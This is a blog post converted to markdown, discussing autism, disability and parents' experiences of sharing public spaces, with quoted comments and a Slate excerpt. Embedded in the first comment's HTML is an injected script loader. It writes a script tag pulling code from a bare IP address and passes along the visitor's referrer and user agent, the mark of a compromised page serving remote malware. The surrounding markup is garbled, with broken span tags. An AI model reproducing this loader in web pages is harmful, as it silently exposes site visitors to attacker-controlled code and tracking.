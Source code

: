```yaml
---
layout: post
title: "Disability And Public Spaces"
date: 15-May-2013
categories: tbd
---
```


# Disability And Public Spaces

## 15th May 2013

 

&lt;iframe src="http://www.youtube.com/embed/dgwYukPReKw" frameborder="0" allowfullscreen&gt;&lt;/iframe&gt;

(ABC what would you do autism clip)

lisa: <span ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  sans-serif;">just re the sharing space - taking it in turns and inclusive.....i also think the turn taking may be an important step (step only...not THE model) for the people with disabilites being able to 'learn to use' the public space first. exposure is how they are educated and so having a chance to do this with no pressure would be really advantageous for families/ carers and the person with the</span><span disability</span><span  </span><span first.</span>



 





* there is also some question in my mind about the 'type' of <span>disability</span> that is 'easier' to manage in a public space. for some reason....quite little children who are profoundly disabled in wheel chairs, pose little threat to 'others' ability to enjoy public space. because they can look away, they dont need to react or respnd physically cause the child is in a wheel chair....it seems the same for other sensory <span>disabilities</span>...like children/people with vision impariments...(its the little blind boy and the cute guide dog thing....been around forever and accepted by most)....but for some reason, autistic children or other <span>disabilities</span> , that involved noise or behaviour that is not 'contained' or 'controled' seems to pose a threat to others. cause they dont know how to react....or cause they dont understand.....or approve of the parenting.





 





* having a child with autism can often basically be like having a shreiking , repetitive noise making 1 yr  -18 month old, for your whole life! We all know to try and avoid public spaces unless armed with major food weapons and toy distractions.....but this phase passes....





If you have a child with Autism, it never, ever passes. N these people have as much right to use public space as anyone else.





 





* years and years of taking children into the community - mostly wahroonga shops and cafes - but also on camps and other places - most people want to help, feel empathy and are enriched by the experiences of children with <span>disabilities</span>....the odd person (and again my experience is that it is usually an elderly impatient person or a middle ages and up man with anger issues..occasionally a mother too...who is worried an protective of her own little child.) will have a problem with children/people wiht <span>disabilities</span> in public spaces.





 





veronica: <span  </span><span think it's a tough one. For ME, public spaces are for the public and children - special needs or not, can't be expected to learn how to behave in public if they're never there, you know? I also think that as a whole, communities have forgotten how to be empathetic to parents. There's a lot of people who think they know how they'd do it better and how we ought to be parenting. That's special needs or not.</span>





 





<span I'm lucky I guess, because Amy is a girl, she's a lot more sensitive to social graces and has learned them pretty well. She's just quirky in her obsessions and concentration now, not difficult in public, and Isaac withdraws entirely because he finds it all so overwhelming, so he's easy - unless you want to speak to him. Heh.</span>





 





<span I wonder if it's just invisible <span data-blogger-escaped-disabilities</span> that get judged so harshly. A drooling shouting five year old who looks otherwise competent is likely to be treated differently to the same five year old in a wheelchair. Likewise all these "wonder stories" of curing ADHD and ASD with diet makes a lot of people assume that it's easily managed and a "get out of jail free" diagnosis,iykwim? When that's not the case at all.</span>





 





<span For me, I try not to think about other people too much. My children are human beings with their own wants and desires. I let them know how I expect them to behave and provide consequences, but it's up to them to actually DO it. It's like all that drama over Facebeef - asking the father of the 18yo why he won't control his son. DUDE, the boy is EIGHTEEN. Doesn't anyone realise that parents can't "control" their child? it's all choices?</span>





<span  </span>





<span Slate Magazine article ntitled <a href="http://www.slate.com/articles/health_and_science/medical_examiner/2013/03/autism_in_the_community_how_should_public_spaces_be_shared.html">Where Should Special Needs Kids Be Special</a>? by Amy Lutz, she asks 'what are reasonable expectations of people in public places?' </span><span It’s not OK to be offended by the sight of disabled people in the community or to insult them or their family members. However, neither is it OK for anyone, disabled or not, to engage in dangerous, illegal, and/or unsanitary behaviors.</span>







Pretty broad parameters, no doubt, but hopefully ones we can all agree on.









Where it gets tricky is in the middle. What are reasonable expectations of behavior in public places? Like many autistic individuals, Jonah is virtually incapable of doing anything quietly. He has been scowled at on airplanes, in movie theaters, in restaurants, and in bookstores. And I get it—I prefer a quiet airplane ride as much as the next person. But what I keep coming back to is that **community**, by definition, is inclusive. Ideally, our public spaces should accommodate everyone. Which means that expecting kids like Jonah to just stay home isn’t reasonable. Nor should we think of this issue in terms of what discomfort or awkwardness people without disabilities are willing to tolerate, because that suggests a troubling hierarchy of privilege. Instead, we need to ask ourselves how best to share our common facilities.

 






